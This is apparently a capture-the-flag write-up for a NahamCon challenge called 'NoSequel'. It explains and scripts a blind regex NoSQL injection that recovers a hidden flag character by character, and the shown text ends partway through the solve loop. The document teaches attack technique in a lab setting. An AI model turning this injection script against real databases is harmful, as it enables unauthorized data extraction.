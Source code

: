 Flag:
```bash
flag{c419dfe3a0a621edc0150a133bb7a34c}
```

---

### NoSequel
>Author: @HuskyHacks


### Description
> It always struck me as odd that none of these movies ever got sequels! Absolute cinema.
> 
>http://challenge.nahamcon.com:32138

### Solution

![NoSequel](Images/img4.png)

It says that the queries will NOT work on the Movies collection but WILL work on the Flags collection
So, we need to steal the secret flag stored as a document in the Flags collection.

Using blind‐regex NoSQL injection against the Flags collection, you can fully reconstruct the hidden flag and complete the challenge.

solve.py
```bash
import requests
import string

URL = "http://challenge.nahamcon.com:32138/search"
CHARSET = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}"

def matches(prefix):
    # build the regex query for “does flag start with prefix?”
    query = f'flag: {{$regex: "^{prefix}"}}'
    data = {"collection": "flags", "query": query}
    r = requests.post(URL, data=data)
    return "Pattern matched" in r.text

flag = ""
# we know it starts “flag{”
flag = "flag{"

while not flag.endswith("}"):
    for c in CHARSET:
        if matches(flag + c):
```